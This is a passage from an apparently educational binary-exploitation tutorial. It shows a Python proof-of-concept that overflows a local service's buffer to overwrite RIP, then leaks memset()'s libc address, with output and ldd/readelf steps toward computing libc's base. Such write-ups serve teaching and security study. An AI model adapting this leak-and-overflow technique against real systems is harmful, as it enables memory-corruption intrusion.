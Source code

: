 ```python

s = socket(AF_INET, SOCK_STREAM)
s.connect(("127.0.0.1", 2323))

print s.recv(1024)              # "Enter input" prompt
s.send(buf + "\n")              # send buf to overwrite RIP
print s.recv(1024)              # receive server reply
d = s.recv(1024)[-8:]           # we returned to write@plt, so receive the leaked memset() libc address 
                                # which is the last 8 bytes in the reply

memset_addr = unpack("<Q", d)
print "memset() is at", hex(memset_addr[0])

# keep socket open so gdb doesn't get a SIGTERM
while True: 
    s.recv(1024)
```

Let's see it in action:

```
# ./poc.py
Enter input:
Recv:
memset() is at 0x7f679978e5c0

```

I recommend attaching gdb to socat as before and running poc.py. Step through the instructions so you can see what's going on. After memset() is called, do a "`p memset`", and compare that address with the leaked address you receive. If it's identical, then you've successfully leaked memset()'s address. 

Next we need to calculate libc's base address in order to get the address of any library function, or even a gadget, in libc. First, we need to get memset()'s offset from libc.so.6. On my machine, libc.so.6 is at /lib/x86_64-linux-gnu/libc.so.6. You can find yours by using ldd:

```
# ldd leak
        linux-vdso.so.1 =>  (0x00007ffd5affe000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff25c07d000)
        /lib64/ld-linux-x86-64.so.2 (0x00005630d0961000)
```

libc.so.6 contains the offsets of all the functions available to us in libc. To get memset()'s offset, we can use readelf:

```
# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep memset
    66: 00000000000a1de0   117 FUNC    GLOBAL DEFAULT   12 wmemset@@GLIBC_2.2.5
   771: 000000000010c150    16 FUNC    GLOBAL DEFAULT   12 __wmemset_chk@@GLIBC_2.4
   838: 000000000008c5c0   247 FUNC    GLOBAL DEFAULT   12 memset@@GLIBC_2.2.5
  1383: 000000000008c5b0     9 FUNC    GLOBAL DEFAULT   12 __memset_chk@@GLIBC_2.3.4
```
